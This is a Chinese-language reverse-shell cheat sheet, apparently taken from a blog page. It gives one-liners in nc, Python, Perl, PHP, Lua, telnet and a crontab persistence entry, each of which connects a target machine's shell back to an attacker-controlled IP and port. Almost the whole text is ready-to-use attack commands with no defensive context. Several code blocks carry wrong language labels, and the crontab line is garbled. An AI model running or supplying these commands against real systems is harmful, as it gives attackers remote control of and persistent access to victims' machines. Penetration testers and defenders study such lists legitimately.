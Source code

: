 $ cat <&5 | while read line; do $line 2>&5 >&5; done

nc方式

```cobol
    本机运行:    nc -l -vv -p port    目标主机:    nc -e /bin/bash ip port
```

python方式

```rust
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'   
```

另一种：

```cobol
  python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('ip',port))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"   
```

Perl方式

```swift
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'   
```

php方式

```swift
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'   
```

lua方式

```cobol
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ip','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"#需要lua socket支持，且lua5.2+不支持luasocket  
```

crontab方式

```cobol
crontab -e编辑当前用户的任务，或者是写到计划任务目录，一般是 /var/spool/cron/ 目录，ubuntu是/var/spool/cron/crontabs。文件名为用户名root等。下面命令含义是每一分钟执行一次反弹shell命令。
```

SHELL=/bin/bash

- /bin/bash -i >& /dev/tcp/ip/port 0>&1

telnet方式

```cobol
mknod backpipe p && telnet ip port 0<backpipe | /bin/bash 1>backpipe
```

###### [字符串匹配](https://so.csdn.net/so/search?q=%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8C%B9%E9%85%8D&spm=1001.2101.3001.7020)
